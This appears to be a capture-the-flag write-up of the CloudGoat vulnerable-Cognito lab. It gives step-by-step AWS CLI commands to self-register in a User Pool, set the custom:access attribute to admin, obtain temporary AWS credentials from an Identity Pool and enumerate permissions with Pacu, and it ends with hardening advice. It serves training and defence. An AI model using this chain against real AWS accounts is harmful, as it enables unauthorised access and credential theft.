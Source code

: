 # 🛠️ CloudGoat vulnerable Cognito Writeup

## ⚡ TL;DR

We exploit a misconfigured AWS Cognito environment by signing up through a vulnerable User Pool, retrieving an access token, and leveraging it to escalate privileges via custom attributes. This access allows us to assume roles in an Identity Pool and retrieve temporary AWS credentials—facilitating lateral movement or privilege escalation within the environment.

---

## 🎯 Target Information

- **Region**: `us-east-1`
- **Cognito Identity Pool ID**: `us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8`
- **Cognito App Client ID**: `24m03titp7v5d0eli306vqimto`  
- **Cognito User Pool ID**: `us-east-1_mSaMI1nQ1`

---

## 🧽 Step-by-Step Exploitation

### 🔍 Step 1: Reconnaissance & Initial Access

The application is hosted at:

```
https://xxx.execute-api.us-east-1.amazonaws.com/vulncognito/cognitoctf-cgid730b6h5u8m/index.html
```

Upon visiting the site, we find login and sign-up functionality. Attempting to sign up reveals a filter: only emails ending in `@ecorp.com` are accepted.

![image](https://github.com/user-attachments/assets/3b46f796-feb5-4178-aaa2-93e161c5e2e3)

Trying to sign up:

![image (1)](https://github.com/user-attachments/assets/c04436b5-742f-4b4a-8b58-0e3c08800bf9)

Inspecting the page source, we find credentials hardcoded in JavaScript:

```js
UserPoolId: 'us-east-1_mSaMI1nQ1',
ClientId: '24m03titp7v5d0eli306vqimto',
```

This gives us what we need to begin interacting with AWS Cognito via CLI.

---

### ✉️ Step 2: User Registration via AWS CLI

Using the `ClientId`, we attempt to register:

```bash
aws cognito-idp sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --password 'Test1@test.com' \
  --user-attributes Name=email,Value=test@test.com Name=given_name,Value=test Name=family_name,Value=test
```

Response:

```json
{
  "UserConfirmed": false,
  "CodeDeliveryDetails": {
    "Destination": "t***@t***",
    "DeliveryMedium": "EMAIL",
    "AttributeName": "email"
  },
  "UserSub": "d4a84488-c001-705a-8fb9-164a987e4a4e"
}
```

We confirm the user:

```bash
aws cognito-idp confirm-sign-up \
  --client-id 24m03titp7v5d0eli306vqimto \
  --username test@test.com \
  --confirmation-code <CODE_FROM_EMAIL>
```

---

### 🧰 Step 3: Authentication & Access Token Retrieval

Login now redirects us to a new page:

![image (2)](https://github.com/user-attachments/assets/0bde252f-7b19-4e5e-a3cd-1524122c12d2)

We use **Burp Suite** to intercept the login and capture our **access token**.

![cognito](https://github.com/user-attachments/assets/c5952bd1-b17a-40d1-97cb-655119f81765)


We validate the token via:

```bash
aws cognito-idp get-user --access-token <ACCESS_TOKEN>
```

Which reveals:

```json
"custom:access": "reader"
```

This custom attribute seems to control access levels.

---

### ⬆️ Step 4: Privilege Escalation via Attribute Modification

We attempt to elevate our privileges by modifying the `custom:access` attribute:

```bash
aws cognito-idp update-user-attributes \
  --access-token <ACCESS_TOKEN> \
  --user-attributes '[{"Name":"custom:access","Value":"admin"}]'
```

The update is successful. We now potentially have admin-level access.

---

### 🧺 Step 5: Linking to Identity Pool

With elevated privileges, we now attempt to get temporary AWS credentials by linking the token to the Cognito Identity Pool:

```bash
aws cognito-identity get-id \
  --region us-east-1 \
  --identity-pool-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

Returns:

```json
"IdentityId": "us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8"
```

Now we request credentials:

```bash
aws cognito-identity get-credentials-for-identity \
  --region us-east-1 \
  --identity-id us-east-1:a96c9f79-324c-c9d1-3de8-ec55221338c8 \
  --logins '{"cognito-idp.us-east-1.amazonaws.com/us-east-1_mSaMI1nQ1":"<ACCESS_TOKEN>"}'
```

We receive:

```json
"AccessKeyId": "ASIA...",
"SecretKey": "xxxxx",
"SessionToken": "xxxxx",
"Expiration": "2025-06-04T21:43:26-04:00"
```

---

### 🧰 Step 6: Configure and Verify Access

We configure a new AWS CLI profile with our credentials:

```bash
aws configure --profile cognito
```

Then verify access:

```bash
aws sts get-caller-identity --profile cognito
```

Output:

```json
{
  "UserId": "AROA2S3E7PEZIU2AWMXNC:CognitoIdentityCredentials",
  "Account": "727671863602",
  "Arn": "arn:aws:sts::727671863602:assumed-role/cognito_authenticated-cgid730b6h5u8m/CognitoIdentityCredentials"
}
```

---

### 🔎 Step 7: Enumerating Permissions with Pacu

We use [Pacu](https://github.com/RhinoSecurityLabs/pacu) to discover the permissions tied to the assumed role:

```json
"Permissions": {
  "Allow": [
    "sts:GetCallerIdentity",
    "dynamodb:DescribeEndpoints",
    "lambda:ListFunctions",
    "lambda:ListEventSourceMappings",
    "lambda:ListLayers",
    "lambda:GetAccountSettings",
    "s3:ListBuckets"
  ],
  "Deny": []
}
```

While limited, these permissions still provide actionable access to several services including **Lambda**, **S3**, and **DynamoDB**.

---

## 🧠 Key Takeaways

- **Client IDs and User Pool IDs** hardcoded in frontend JavaScript are a major security risk.
- **Attribute update policies** must be tightly controlled—especially for custom fields like `custom:access`.
- **Identity Pool trust relationships** should strictly validate user claims and access levels.

---

## 🐻 Conclusion

This exploitation chain demonstrates how seemingly benign AWS Cognito misconfigurations can lead to privilege escalation, credential exposure, and lateral movement across an AWS account. Secure your Cognito implementation by:

- Removing sensitive config from frontend apps
- Restricting attribute updates
- Locking down identity pool trust policies
